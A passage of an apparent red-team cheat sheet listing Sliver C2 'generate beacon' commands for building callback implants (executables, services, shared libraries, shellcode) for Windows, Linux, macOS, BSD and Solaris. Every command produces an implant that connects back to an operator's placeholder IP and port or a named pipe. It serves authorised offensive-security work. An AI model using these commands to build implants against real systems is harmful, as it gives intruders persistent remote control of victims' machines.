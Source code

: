 #### 4.1.2 - Usage

##### 4.1.2.1 - Syntax

* Generate beacons

`sliver > generate beacon -a <architecture> -l -S <seconds> -m <IP>:<PORT> -o <platform> -f <format> -s /path/to/folder`

`sliver > generate beacon -a <architecture> -l -S <seconds> -m <IP>:<PORT> -o <platform> -f <format> -s /path/to/folder`

`sliver > generate beacon -a <architecture> -l -S <seconds> -b http[s]://<IP>:<PORT> -o <platform> -f <format> -s /path/to/folder`

##### 4.1.2.2 - Windows

* Initial Foothold beacon

`sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -a <[amd64 | x64] | [386 | x86] | arm | arm64> -o windows -f <exe | service | shared | shellcode> -s /path/to/directory`

* Name-piped SMB beacon

`sliver > generate beacon -n <IP>//./pipe/<name_pipe> -a <[amd64 | x64] | [386 | x86] | arm | arm64> -o windows -f <exe | service | shared | shellcode> -s /path/to/directory`

##### 4.1.2.3 - Linux

`sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -a <[amd64 | x64] | [386 | x86] | arm | arm64 | loong64 | mips | mips64 | mips64le | mipsle | ppc64 | ppc64le | riscv64 | s390x> -o linux -f <exe | shared | shellcode> -s /path/to/directory`

##### 4.1.2.4 - OSX

`sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -a <[amd64 | x64] | arm64> -o darwin -f <exe | shared | shellcode> -s /path/to/directory`

##### 4.1.2.5 - BSD

* FreeBSD

`sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -a <[amd64 | x64] | arm | arm64 | riscv64> -o freebsd -f exe -s /path/to/directory`

* NetBSD

`sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -a <[amd64 | x64] | arm | arm64 | riscv64> -o netbsd -f exe -s /path/to/directory`

* OpenBSD

`sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -a <[amd64 | x64] | arm | arm64 | riscv64> -o openbsd -f exe -s /path/to/directory`

##### 4.1.2.6 - Solaris

`sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -a <[amd64 | x64]> -o solaris -f exe -s /path/to/directory`
